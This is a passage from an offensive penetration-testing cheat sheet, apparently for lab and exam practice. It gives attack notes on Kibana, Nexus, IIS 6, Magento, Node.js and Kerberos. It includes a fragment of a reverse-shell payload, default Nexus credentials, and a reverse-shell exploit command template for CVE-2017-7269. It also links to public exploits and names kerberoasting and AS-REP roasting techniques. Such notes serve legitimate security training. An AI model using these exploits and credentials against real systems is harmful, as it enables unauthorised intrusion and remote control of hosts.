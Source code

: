 ```bash
        sh.stderr.pipe(client);
    });
    return /a/;
})();

```

### Kibana - RCE
+ rce, https://github.com/mpgn/CVE-2019-7609, https://github.com/LandGrey/CVE-2019-7609


### Nexus 
+ default credential login
+ rce

```bash
nexus:nexus

# rce
https://www.exploit-db.com/exploits/49385
```

### IIS 6
+ IIS 6 CVE-2017-7269, lead to rce/bof to rce; [leads to rce](https://www.trendmicro.com/en_us/research/17/c/iis-6-0-vulnerability-leads-code-execution.html)
+ webdav put/move to rce, exploit reference, [sinfulz granny walkthrough](https://medium.com/@sinfulz/hackthebox-granny-walkthrough-oscp-friendly-cf800b42ce7a)

```bash
# davtest, check if file uploaded.
davtest --url http://ip:port

# another exploit
## https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269/blob/master/iis6%20reverse%20shell
python2 targetip targetport lhost lport
```

### magento
+ magento scan, enum version/vulns;[magescan](https://github.com/steverobbins/magescan)
+ sqli add admin user, php objection injection > rce

```bash
# https://github.com/steverobbins/magescan
php magescan.phar scan:all swagshop.htb

```

### Nodejs 
+ check the app.js, contains api routes for site; htb node
+ 

## 88tcp/udp-kerberos
+ ms14-068 exploit, Windows Server 2003/Windows Server 2008/Windows Server 2008 R2/Windows Server 2012/Windows Server 2012 R2
+ asrepoast/kerberoast/user brute
+ 一般88端口开放，可考虑windows domain controller; [hacktricks-kerberos](https://book.hacktricks.xyz/pentesting/pentesting-kerberos-88)
